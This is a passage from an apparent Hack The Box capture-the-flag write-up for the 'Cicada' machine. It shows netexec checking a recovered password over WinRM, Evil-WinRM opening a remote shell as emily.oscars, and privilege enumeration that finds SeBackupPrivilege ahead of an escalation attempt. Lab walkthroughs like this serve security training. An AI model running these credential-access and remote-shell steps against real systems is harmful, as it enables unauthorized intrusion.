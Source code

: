 using netexec we discovered that we can access Windows Remote Management (WinRM) service as emily.oscars
```bash
netexec  winrm cicada.htb -u emily.oscars  -p 'Q!3@Lp#M6b*7t*Vt' --continue-on-success
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```
```
┌──(mofe㉿mofe)-[~/files/htb/cicada/enum4linux-ng]
└─$ evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

I used Evil-WinRM to establish a remote session as `emily.oscars`

After gaining remote access, I checked the users on the system and discovered two accounts:

```
 Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         8/26/2024   1:10 PM                Administrator
d-----         8/22/2024   2:22 PM                emily.oscars.CICADA
d-r---         3/14/2024   3:45 AM                Public
```
Our goal is to escalate privileges to the `Administrator` account. 

I then checked the current privileges for the `emily.oscars` user:

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
